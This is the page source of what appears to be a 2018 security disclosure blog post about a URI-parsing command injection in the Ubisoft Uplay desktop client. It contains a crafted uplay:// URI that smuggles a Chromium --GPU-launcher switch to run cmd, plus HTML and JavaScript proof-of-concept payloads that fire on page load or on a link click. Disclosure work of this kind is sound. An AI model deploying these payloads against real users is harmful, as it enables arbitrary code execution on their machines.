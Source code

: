 ```yaml
---
title: Ubisoft UPlay RCE Exploit
post: post
date: 2018-11-16 12:33
image: "/images/ubipoc.png"
---
```


<h1 class="cyan-text title">Ubisoft Uplay Desktop Client - Remote Code Execution</h1>
<h2 class="cyan-text subtitle">Introduction</h2>

<div class="content white-text">
	Exploit Title: Ubisoft Uplay Desktop Client 63.0.5699.0 - Remote Code Execution
	<br>
	Date: 2018-09-01
	<br>
	Exploit Author: Che-Chun Kuo
	<br>
	Vulnerability Type: URI Parsing Command Injection
	<br>
	Vendor Homepage: https://www.ubisoft.com/en-us/
	<br>
	Software Link: https://uplay.ubi.com/
	<br>
	Version: 63.0.5699.0
	<br>
	Tested on: Windows, Microsoft Edge
	<br>
	Advisory: https://forums.ubi.com/showthread.php/1912340-Uplay-PC-Client-July-17th-2018
	<br>

	<h3 class="cyan-text subtitle">Vulnerability</h3>
	<br>
The Uplay desktop client does not properly validate user-controlled data passed to its custom uplay URI protocol handler. This flaw can be used to exploit the Chromium Embedded Framework (CEF) integrated within the Uplay client, allowing for arbitrary code execution.
	<br>

Installing Uplay registers the following custom uplay protocol handler:

	<pre><code class="black green-text">HKEY_CLASSES_ROOT
	uplay
		(Default) = "URL:uplay Protocol"
		URL Protocol = ""
			DefaultIcon
				(Default) = "upc.exe"
		Shell
			Open
			Command
				(Default) = "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "%1"
	</code></pre>
	<br>

The %1 will be replaced with arguments from the URI. The following crafted URI performs arbitrary code execution:

<pre><code class="black green-text">uplay://foobar" --GPU-launcher="cmd /K whoami &" --</code></pre>

When a victim opens this URI, the string is passed to the Windows ShellExecute function.
<br><br>
Microsoft states the following: "When ShellExecute executes the pluggable protocol handler with a string on the command line, any non-encoded spaces, quotes, and backslashes in the URI will be interpreted as part of the command line. This means that if you use C/C++’s argc and argv to determine the arguments passed to your application, the string may be broken across multiple parameters."
<br><br>
"Malicious parties could use additional quote or backslash characters to pass additional command line parameters. For this reason, pluggable protocol handlers should assume that any parameters on the command line could come from malicious parties, and carefully validate them."
<br><br>
The Uplay desktop client does not properly validate user-controlled data. An attacker can inject certain Chromium flags that allow for arbitrary code execution. The malicious URI breaks the command line with a quote character and inserts a new switch called --GPU-launcher. Since the Uplay client uses the Chromium Embedded Framework (CEF), Chromium command lines switches are supported.
<br><br>
The --GPU-launcher switch provides a method to execute arbitrary commands. The following string shows the final command, which opens the Windows command prompt and executes the whoami program.
<br>

	<pre><code class="black green-text">"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "foobar" --GPU-launcher="cmd /K whoami &" --"</code></pre>

	<h3 class="cyan-text subtitle">Attack Scenario</h3>

The following attack scenario would result in the compromise of a victim's machine with the vulnerable Uplay client installed. A user running Microsoft Edge visits a specially crafted webpage or clicks on a specially crafted link. The user is served with the prompt: Did you mean to switch apps? Microsoft Edge is trying to open "UPlay launcher". After the user gives consent, the vulnerable application runs, resulting in arbitrary code execution in the context of the current process.
<br><br>
This scenario also works on IE, but the IE browser shows the URI string to be opened and warns users against opening untrusted content. Microsoft Edge provides no such warning. Chrome and Firefox both escape illegal characters before passing the URI to the protocol handler.
<br><br>
After Uplay desktop client (upc.exe) is run, upc.exe will attempt to open additional executables before the --GPU-launcher is activated. One notable executable is the UplayService.exe. UplayService requires elevated privileges. If the user is a non-administrative user a UAC prompt will appear.
<br><br>
It should be noted, this UAC prompt doesn't prevent command execution from occurring. Regardless of which option the user chooses within the UplayService UAC prompt (Yes/No), command execution will still occur once the code that passes the --GPU-launcher switch to the CEF is triggered within upc.exe.

<h4 class="cyan-text subtitle">Proof of Concept</h4>

The following POC provides two avenues to trigger the vulnerability within Microsoft Edge.
The first method triggers when the webpage is opened.
The second method triggers when the hyperlink is clicked by a user.
<br>

<pre><code class="black green-text">&lt;a href='uplay://foobar" --GPU-launcher="cmd /K whoami &" --'&gt;ubisoft uplay desktop client rce poc&lt;/a&gt;

&lt;script&gt;
  window.location = 'uplay://foobar" --GPU-launcher="cmd /K whoami &" --'
&lt;/script&gt;
</code></pre>
<br>

</div>
<div class="video-container">
  <iframe src="https://www.youtube.com/embed/mffRsZgWgys" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
 </div>
